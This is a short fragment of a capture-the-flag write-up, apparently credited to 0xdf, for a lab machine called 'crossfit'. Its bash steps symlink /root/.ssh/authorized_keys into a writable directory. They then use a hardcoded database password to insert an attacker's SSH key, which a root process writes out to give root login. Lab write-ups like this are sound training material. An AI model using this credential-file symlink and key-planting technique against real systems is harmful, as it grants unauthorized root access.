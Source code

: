 Generate Symlink:
```bash
id=223
fn=$(echo -n "${randint}${id}" | md5sum | cut -d' ' -f1)
echo "[+] Filename will be: /var/local/$fn"
ln -s /root/.ssh/authorized_keys /var/local/$fn
echo "[+] Created symlink to /root/.ssh/authorized_keys"
```

Update Database.
```bash
ssh="ssh-ed25519"
key="AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d"
user="nobody@nothing"
echo "[*] Writing to DB: insert into messages(id, name, email, message) values ($id, '$ssh', '$user', '$key')"
mysql -u crossfit -poeLoo~y2baeni crossfit -e "insert into messages(id, name, email, message) values ($id, '$ssh', '$user', '$key')"
```

Wait and login if your key as root.

This is the [final script](https://0xdf.gitlab.io/files/crossfit-root.sh), created by 0xdf.

